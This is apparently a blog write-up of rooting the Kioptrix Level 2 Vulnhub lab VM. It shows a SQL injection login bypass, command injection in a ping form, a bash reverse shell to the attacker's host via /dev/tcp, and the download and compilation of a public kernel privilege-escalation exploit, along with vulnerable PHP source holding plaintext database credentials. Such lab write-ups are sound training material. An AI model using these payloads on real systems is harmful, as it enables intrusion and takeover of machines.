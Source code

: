 ```yaml
---
layout: post
title: "Vulnhub: K1optr1x 2"
categories: vulnhub
author: "dib"
permalink: /vulnhub/kp2/
tags: vulnhub
---
```


> “Never underestimate the determination of a kid who is time-rich and cash-poor.” <br>-- Cory Doctorow, Little Brother

![][1]

You can download this VM [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/). Let's start pwning !

### 0x01 Reconnaissance

<details>
  <summary>
    get VM IP address
  </summary>

<pre>
&nbsp;
<b>imd@kali:~$</b> sudo arp-scan 192.168.222.0/24
Interface: eth0, type: EN10MB, MAC: 00:0c:29:30:67:4e, IPv4: 192.168.222.129
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.222.1   00:50:56:c0:00:08       VMware, Inc.
192.168.222.2   00:50:56:e7:41:94       VMware, Inc.
192.168.222.128 00:0c:29:bb:86:18       VMware, Inc.
192.168.222.254 00:50:56:f1:d9:90       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.000 seconds (128.00 hosts/sec). 4 responded

</pre>
</details>

Target IP: 192.168.222.128

### 0x02 Scanning

<details>
  <summary>
    nmap full scan
  </summary>

<pre>
&nbsp;
<b>imd@kali:~$</b> nmap -Pn -n -A -p- 192.168.222.128
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-16 10:08 EST
Nmap scan report for 192.168.222.128
Host is up (0.0096s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2020-12-16T13:00:04+00:00; -2h08m58s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
854/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)

Host script results:
|_clock-skew: -2h08m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds

</pre>
</details>

Found 7 open ports: 22, 80, 111, 443, 631, 854, 3306. Server is running Apache httpd 2.0.52 on port 80/tcp, MySQL on port 3306/tcp, CUPS/1.1 on port 631/tcp. Port 80  is always an interesting port, let's check it on a web browser.

### 0x03 Exploitation

![][2]

It's a web html/php based login form. Since we know there's a MySQL server running on the backend, I tried basic SQL injection methods to bypass the login, and `admin' or 1=1#` worked. The result of the SQL query looks like this: `SELECT * FROM users WHERE username='admin' or 1=1#' AND password=''` and the pound/sharp/hashtag whatever you call it made the next parameters commented out.

![][3]

As we can see here, there's a ping command prompt which might be vulnerable to a [Command Injection](https://www.owasp.org/index.php/Command_Injection). 

![][4]

We used the semicolon to run any shell command after the first command executed. If this is the case, we can run a reverse shell too. There are many available cheat sheets on the web and one of the most known website is pentestmonkey. for example, a bash reverse shell. I tried to inject another command `127.0.0.1 ; whoami` and found out it was indeed vulnerable to a command injection.

![][5]

I've explored a bit to see what other details I could extract, then I attempted to spawn a [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) with a bash reverse shell command `; bash -i >& /dev/tcp/192.168.222.129/9001 0>&1` and before doing this, you will need to run netcat first to listen to incoming connections on our machine. `nc -lvp 9001`

<details>
  <summary>low-priv shell access</summary>

<pre>
&nbsp;
<b>imd@kali:~$</b> nc -lvp 9001
listening on [any] 9001 ...
192.168.222.128: inverse host lookup failed: Unknown host
connect to [192.168.222.129] from (UNKNOWN) [192.168.222.128] 32771
bash: no job control in this shell
<b>bash-3.00$</b> whoami
apache
<b>bash-3.00$</b> uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
<b>bash-3.00$</b> ls
index.php
pingit.php
<b>bash-3.00$</b> lsb_release -a
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
bash-3.00$ ls
index.php
pingit.php
<b>bash-3.00$</b> cat index.php

</pre>
</details>

Interesting. let's see what's inside the source code of index.php

<details>
  <summary>index.php source code</summary>
{% highlight php %}
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");
	
	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
<html>
<body>
<?php
if ($row['id']==""){
?>
<form method="post" name="frmLogin" id="frmLogin" action="index.php">
	<table width="300" border="1" align="center" cellpadding="2" cellspacing="2">
		<tr>
			<td colspan='2' align='center'>
			<b>Remote System Administration Login</b>
			</td>
		</tr>
		<tr>
			<td width="150">Username</td>
			<td><input name="uname" type="text"></td>
		</tr>
		<tr>
			<td width="150">Password</td>
			<td>
			<input name="psw" type="password">
			</td>
		</tr>
		<tr>
			<td colspan="2" align="center">
			<input type="submit" name="btnLogin" value="Login">
			</td>
		</tr>
	</table>
</form>
<?php
	} //END of login form
?>

<!-- Start of HTML when logged in as Administator -->
<?php
	if ($row['id']==1){
?>
	<form name="ping" action="pingit.php" method="post" target="_blank">
		<table width='600' border='1'>
		<tr valign='middle'>
			<td colspan='2' align='center'>
			<b>Welcome to the Basic Administrative Web Console<br></b>
			</td>
		</tr>
		<tr valign='middle'>
			<td align='center'>
				Ping a Machine on the Network:
			</td>
				<td align='center'>
				<input type="text" name="ip" size="30">
				<input type="submit" value="submit" name="submit">
			</td>
			</td>
		</tr>
	</table>
	</form>


<?php
}
?>
</body>
</html>
{% endhighlight %}
</details>

We immediately saw credentials on the source code. and we'll see if we can access MySQL.

<details>
  <summary>MySQL login attempt</summary>

<pre>
&nbsp;
<b>bash-3.00$</b> mysql -u john -p
Enter password: hiroshima
ls
ls
ls
^C

</pre>
</details>

Nothing shows up. What could be the problem? the system is not allowing us to connect. It means that the password we're using is possibly already an old password. That's why it is not giving us a shell output. At least we tried. Let's move on and look for something else.

<details>
  <summary>sudo and suid permissions</summary>

<pre>
&nbsp;
<b>bash-3.00$</b> sudo -l
Password:

<b>bash-3.00$</b> 
<b>bash-3.00$</b> find / -perm -u=s -type f 2>/dev/null
/sbin/unix_chkpwd
/sbin/pam_timestamp_check
/sbin/pwdb_chkpwd
/usr/sbin/ccreds_validate
/usr/sbin/userhelper
/usr/sbin/userisdnctl
/usr/sbin/suexec
/usr/sbin/usernetctl
/usr/libexec/openssh/ssh-keysign
/usr/libexec/pt_chown
/usr/kerberos/bin/ksu
/usr/lib/squid/pam_auth
/usr/lib/squid/ncsa_auth
/usr/bin/chsh
/usr/bin/rcp
/usr/bin/sudo
/usr/bin/chage
/usr/bin/crontab
/usr/bin/rlogin
/usr/bin/rsh
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/lppasswd
/usr/bin/sg
/usr/bin/passwd
/bin/mount
/bin/traceroute6
/bin/traceroute
/bin/umount
/bin/ping6
/bin/ping
/bin/su

</pre>
</details>

Looking at the files with suid bit, we don't know which one is vulnerable and which one is not. In that case, we need to check out the priv esc suid on [gtfobins](https://gtfobins.github.io/). If something is here, that means it is vulnerable. We found none after checking all the files.

<details>
  <summary>crontabs</summary>

<pre>
&nbsp;
<b>bash-3.00$</b> cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
HOME=/

\# run-parts
01 * * * * root run-parts /etc/cron.hourly
02 4 * * * root run-parts /etc/cron.daily
22 4 * * 0 root run-parts /etc/cron.weekly
42 4 1 * * root run-parts /etc/cron.monthly

<b>bash-3.00$</b> crontab -l
no crontab for apache

</pre>
</details>

How bout crontabs? Yep, we found none. There is no scheduled crontab for apache user. So what's next? We know we got a shell but with a low privilege. We found out this is an apache shell. We know this is running CentOS. So how about we try to find a kernel exploit to linux 2.6.9.EL. A quick google search of "<mark>linux 2.6.9-55.EL centos exploit</mark>" leads us to this first link: https://www.exploit-db.com/exploits/9542 or searching from searchsploit command on your machine.

<details>
  <summary>transfer and download exploit</summary>

<pre>
&nbsp;
<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> searchsploit centos 4.5
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Co | linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS  | linux_x86/local/9542.c
Linux Kernel 3.14.5 (CentOS 7 / RHEL) - 'libfute | linux/local/35370.c
------------------------------------------------- ---------------------------------
Shellcodes: No Results

<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> searchsploit -m 9542
  Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/9542
     Path: /usr/share/exploitdb/exploits/linux_x86/local/9542.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix2/9542.c

<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
192.168.222.128 - - [23/Dec/2020 13:19:10] "GET /9542.c HTTP/1.0" 200 -

<b>bash-3.00$</b> cd /tmp
<b>bash-3.00$</b> wget http://192.168.222.129/9542.c
--11:24:27--  http://192.168.222.129/9542.c
           => `9542.c'
Connecting to 192.168.222.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

  0K ..                                                    100%    5.04 MB/s

11:24:27 (5.04 MB/s) - `9542.c' saved [2643/2643]

</pre>
</details>

In order to download the exploit from attacker box, we need to host the exploit and we did this using python2. Download the exploit from the victim's machine in /tmp directory.

### 0x04 Gaining root access

<details>
  <summary>compile and gain root access</summary>
  
<pre>
&nbsp;
<b>bash-3.00$</b> ls
9542.c
<b>bash-3.00$</b> gcc 9542.c -o exploit
9542.c:109:28: warning: no newline at end of file
<b>bash-3.00$</b> ls
9542.c
exploit
<b>bash-3.00$</b> ./exploit
sh: no job control in this shell
<b>sh-3.00#</b> whoami
root
<b>sh-3.00#</b> id
uid=0(root) gid=0(root) groups=48(apache)
<b>sh-3.00#</b> hostname
kioptrix.level2

</pre>
</details>

We used gcc to compile the c file, named the compiled file 'exploit' and ran it and now we are root! Congratulations..K1optr1x 2 -- rooted!



[1]: https://i.imgur.com/lBO1ezp.png
[2]: https://i.imgur.com/JWKV9N4.png
[3]: https://i.imgur.com/Vl7waEv.png
[4]: https://i.imgur.com/lrVIqAN.png
[5]: https://i.imgur.com/XokJzFd.png


